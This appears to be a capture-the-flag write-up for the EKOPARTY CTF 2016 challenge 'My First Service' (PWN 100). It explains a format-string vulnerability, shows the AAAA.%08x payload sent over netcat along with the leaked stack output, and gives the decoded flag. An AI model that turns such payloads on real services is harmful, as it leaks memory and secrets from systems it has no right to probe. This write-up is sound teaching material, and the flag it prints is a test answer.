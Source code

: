 ```yaml
---
layout: post
title: EKOPARTY CTF 2016 - My First Service (PWN 100)
date: 2016-10-29 12:10:00
categories: 
- CTF 
- EKOPARTY CTF 2016
---
```


## Challenge

> Blacky is taking his first steps at C programming for embedded systems, but he makes some mistakes. Retrieve the secret key for access.
> 
> nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000


## Solution

The challenge text gives a clue that this server may be running some sort of vulnerable program.  A typical session with the server might look like this:

```none
$ nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: 123abc
Invalid key: 123abc
```

My input was printed back to me.  This was an excellent opportunity to test for a format string vulnerability.  

The basis of this attack was to begin with 4 letter As __(AAAA)__, followed by a bunch of format string specifiers __(.%08x)__.  The As exist to help identify where the user input begins on the stack.  The format string specifiers, if there is a vulnerability, will actually read data off of the stack and print it.  This happens when the format string doesn't account for extra specifiers.  The format string modifiers have the form __.%08x__ in my attack, which means:

- the dot (__.__) merely helps to distinguish one chunk of data from the next
- the percent sign (__%__) signifies the beginning of a format string specifier
- the __08__ portion modifies this specifier such that it should print exactly 8 bytes of data, and if there are less than 8 bytes available, then it should be padded with zeros so that the output is always 8 bytes long
- the __x__ portion is the specifier for hexadecimal without a leading __0x__

```none
 
Please input the secret key: AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
Invalid key: AAAA.00000000.00000001.00000000.00000000.00000000.0000000a.00000000.454b4f7b.4c614269.67426566.3072647d.00000000.41414141.2e253038.782e2530.38782e25.3038782e.25303878.2e253038.782e2530.38782e25.3038782e
 
```

The vulnerability definitely existed, and the program returned some data off of the stack to me.  The interesting parts are:

`00000000.454b4f7b.4c614269.67426566.3072647d.00000000.41414141`

There are 32 bytes of data surrounded by null data, with my original __AAAA__ input beginning after the second null data.  After converting the 32 bytes of hex to ascii, I learned that it was the flag.


## Flag

```none
EKO{LaBigBef0rd}
```